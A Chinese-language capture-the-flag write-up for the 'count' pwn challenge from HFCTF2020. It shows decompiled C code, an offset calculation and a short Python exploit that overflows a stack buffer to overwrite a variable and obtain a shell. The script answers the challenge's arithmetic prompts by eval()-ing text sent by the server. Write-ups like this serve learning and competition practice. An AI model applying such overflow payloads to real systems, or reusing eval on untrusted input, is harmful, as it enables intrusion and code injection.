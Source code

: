 
## count (57pt)
- 题目描述：
    
    > 破绽在推算之后。
    >
    > nc 39.97.210.182 40285
- 题目附件：[count](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/icq-HFCTF2020/pwn/count/count)
- 考察点：ppc
- 难度：简单

### 程序分析
题目是arm64框架的，我懒得装环境了... 不过不影响做题。

先是200次的四则运算，全算对后读110字节到`v8`，然后判断`v9`的值，正确就给shell。

```c
  v9 = 0x100;
  read(0LL, &v8, 110LL);
  if ( v9 == 0x12235612 )
  {
    v5 = puts("get it ~");
    sub_400920(v5);
  }
```

显然是bof，溢出`v8`，覆盖`v9`。

### 解题思路

通过静态分析可以得到偏移量

```c
  __int64 v8; // [xsp+78h] [xbp+78h]
  int v9; // [xsp+DCh] [xbp+DCh]
```

> 0xdc-0x78 = 100

写脚本通过200次运算，然后去覆盖变量即可：

```python
for i in range(200):
    ru('Math: ')
    print 'Time: %d'%i
    equal=ru('= ???input answer:')
    sl(str(eval(equal)))
ru('good !')

payload = cyclic(100)
payload+= p32(0x12235612)
payload+= p32(0)
sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/icq-HFCTF2020/pwn/count) 


